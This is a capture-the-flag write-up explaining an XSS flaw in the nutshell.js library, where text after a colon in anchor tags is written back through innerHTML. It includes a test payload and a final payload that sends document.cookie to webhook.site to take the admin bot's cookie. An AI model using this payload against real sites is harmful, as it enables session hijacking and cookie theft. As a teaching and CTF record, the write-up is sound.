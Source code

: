 Objective:
+ exploit an XSS vulnerability on the web page and retrieve the admin cookie from the admin bot
+ a javascript library imported called 'nutshell.js'
+ source code of that library is available here:https://github.com/ncase/nutshell
+ the library used in the challenge was in the latest version, so here there was a zero-day

Solving:
+ we need to check if we have any gadgets with which we can exploit the xss vuln.(such as innerHTML)
+ After some analysis, from the source code of nutshell.js we can were able to find this : https://github.com/ncase/nutshell/blob/c182586d649153577b985dfd8dfab15e739130f6/nutshell.js#L607-L684
+ In the snippet of the source code provided, it can be observed that it retrieves all “a” tags in the DOM. Then, it creates a “span” element and removes the “:” character from the text using ex.innerText.slice(ex.innerText.indexOf(':')+1). Afterward, the modified text is assigned to linkText.innerHTML and appended to the “ex” element.
+ If we inject an HTML entity into an “a” tag that starts with “:”, it will be reappended to the “ex” element, allowing us to exploit an XSS vulnerability.
+ Simple payload
  ```
  <a>:&lt;img src=x onerror='alert(1)'/&gt;</a>
  ```
+ Yes we got an xss.
+ Now we can get the document.cookie easily by giving our webhook site
Final payload:
```
<a>:&lt;img src=x onerror='fetch("webhook.site/?"+document.cookie)'/&gt;</a>
```
Thus we get the flag.



Reference:
+ https://hackmd.io/@Solderet/UIUCTF-2023-peanut-xss
+ https://github.com/ncase/nutshell
+ https://ncase.me/nutshell/
+ https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity(false,'Named%20entities')&input=PGltZyBzcmM9eCBvbmVycm9yPSdhbGVydCgxKScvPg
